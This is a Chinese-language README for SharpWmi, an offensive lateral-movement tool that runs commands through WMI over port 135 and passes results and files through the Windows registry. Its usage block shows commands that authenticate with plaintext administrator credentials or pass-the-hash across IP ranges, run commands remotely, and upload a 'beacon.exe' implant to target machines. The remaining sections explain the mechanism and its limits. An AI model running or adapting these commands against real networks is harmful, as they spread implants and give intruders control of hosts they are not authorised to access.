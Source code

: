 # SharpWmi

## 魔改
```bash

                sharpwmi.exe login 192.168.2.3 administrator 123 cmd whoami
                sharpwmi.exe login 192.168.2.3/24 administrator 123 cmd whoami
                sharpwmi.exe login 192.168.2.3-23 administrator 123 upload beacon.exe c:\beacon.exe
                sharpwmi.exe pth 192.168.2.3-192.168.2.77 cmd whoami
                sharpwmi.exe pth 192.168.2.3/255.255.255.0 upload beacon.exe c:\beacon.exe
```

## 介绍：

这是一个基于135端口来进行横向移动的工具,具有执行命令和上传文件功能,通过wmi来执行命令,通过注册表来进行数据传输.

## 原理:
### 执行命令：
   通过wmi来执行命令，server将命令结果存在本机注册表，然后client连接注册表进行读取命令结果

### 上传文件:
   client将需要上传的文件放到server的注册表里面，然后server通过powershell来操作注册表方式来取文件然后释放到本地


## 优点：
- 不依赖139和445端口

## 缺点：
- 目前只支持上传512kb以下的文件，因为注册表每个值值长度不能超过512kb。
- 执行命令和上传文件都依赖powershell

## todo:
- 用添加增加多个值的方式来实现上传任意大小文件
- 去除powershell依赖
![](2.png)
![](3.png)

